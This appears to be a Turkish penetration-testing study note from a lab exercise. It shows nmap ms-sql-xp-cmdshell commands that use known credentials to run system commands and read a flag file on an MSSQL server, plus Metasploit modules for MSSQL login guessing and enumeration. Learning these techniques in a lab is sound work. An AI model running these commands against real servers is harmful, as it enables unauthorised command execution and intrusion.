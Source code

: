 
##### nmap 10.0.2.5 -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"

![[Pasted image 20240128204825.png]]
##### nmap 10.0.2.5 -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="==c:\flag.txt=="

![[Pasted image 20240128204930.png]]
### C içinde olduğunu bildiğimiz bir flag'i okumamızı bile sağladı bu script.

>[!warning] BİR BAŞKA VERSİYON SQL TOOL GÖRÜRSEK NMAP'IN KENDİ SİTESİNE GİDİP BURADAKİ NSE Nmap Scripting Engine kodlarına bakabiliriz.




---

##  MSSQL Metasploit
#mssql-metasploit

![[Pasted image 20240128205516.png]]
![[Pasted image 20240128205803.png]]

![[Pasted image 20240128211713.png]]

##### msf6> use auxiliary/scanner/mssql/mssql_login

![[Pasted image 20240128212002.png]]
 ![[Pasted image 20240128212028.png]]
 ![[Pasted image 20240128212230.png]]


### Bunlar MSFCONSOLE'daki mssql scriptler

##### msf6 > use auxiliary/admin/mssql/mssql_enum
![[Pasted image 20240128213058.png]]
![[Pasted image 20240128213121.png]]
![[Pasted image 20240128213134.png]]

##### msf6> use auxiliary/admin/mssql/mssql_enum_sql_logins 


![[Pasted image 20240128213449.png]]

---
